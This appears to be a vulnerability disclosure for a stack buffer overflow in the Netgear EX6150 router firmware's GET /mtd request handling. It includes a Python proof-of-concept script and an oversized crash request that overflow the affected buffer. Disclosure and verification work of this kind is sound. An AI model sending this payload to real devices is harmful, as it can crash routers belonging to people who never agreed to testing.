 # Overview
Details of the vulnerability found in the netgear router ex6150.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex6150    | V1.0.0.46_1.0.76    | https://www.downloads.netgear.com/files/GDC/EX6150/EX6150-V1.0.0.46_1.0.76.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_410090 at offset 0x00410728, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET /mtd`.
![second](./assets/2.png)
- Since the program uses memset(&v22[6], 0, 94);, the maximum size of the v22 buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.170"
port = 80
file = "../crashes/id0"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## id0

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET /mtdnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnGGGGGGGGGGAccept-Language:GGGGGGGGGGGGGGGGGGZGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGfGGGGGGGGGGGGGGGGGGGGGGGG\GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG$GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG"


```

# Vulnerability Verification Screenshot
##  ex6150
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn.

